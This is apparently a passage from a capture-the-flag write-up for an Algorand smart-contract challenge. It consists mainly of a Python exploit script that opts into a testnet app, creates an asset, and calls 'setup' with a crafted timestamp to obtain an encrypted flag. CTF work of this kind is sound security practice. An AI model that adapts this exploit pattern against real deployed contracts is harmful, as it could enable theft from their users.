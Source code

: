 - CTF_Address 会向完成交易的账户发起 Transfer 交易，其中包含使用 AlgoSMS 加密的 Flag

### Exploit

```py
from algosdk.v2client import algod
from algosdk import transaction, account, constants
from Crypto.Util.number import long_to_bytes
from datetime import datetime
import json

def transact(txn):
    if not isinstance(txn, list):
        signed_txn = txn.sign(private_key)
        txid = algod_client.send_transaction(signed_txn)
    else:
        signed_txns = [t.sign(private_key) for t in txn]
        txid = algod_client.send_transactions(signed_txns)
    confirmed_txn = transaction.wait_for_confirmation(algod_client, txid, 4)
    print(f"Transaction information: {json.dumps(confirmed_txn, indent=4)}")
    return confirmed_txn

private_key = '<private>'
sender = account.address_from_private_key(private_key)

app_id = 163726037
app_address = "5K7JP6324NOEPDB5THIZY3FWHUKF4FBPJFYKIUX2SBNG264NUY6E3AI3BM"

algod_address = "https://testnet-algorand.api.purestake.io/ps2"
algod_token = "<api-key>"
headers = {
    "X-API-Key": algod_token,
}
algod_client = algod.AlgodClient(algod_token, algod_address, headers)

params = algod_client.suggested_params()

# OptIn
optin_txn = transaction.ApplicationOptInTxn(sender, params, app_id)
transact(optin_txn)

# Create asset
create_txn = transaction.AssetCreateTxn(
    sender,
    params,
    100,
    decimals=2,
    default_frozen=False,
    unit_name="CC",
    asset_name="Chicken Coin",
    manager=sender,
)
res = transact(create_txn)
asset_id = res['asset-index']

setup_txn = transaction.ApplicationNoOpTxn(
    sender,
    params,
    app_id,
    [b'setup', long_to_bytes(int(datetime.now().timestamp() * 1000) + 0x80000000)],
    foreign_assets=[asset_id],
    foreign_apps=[asset_id],
    )
transact(setup_txn)
```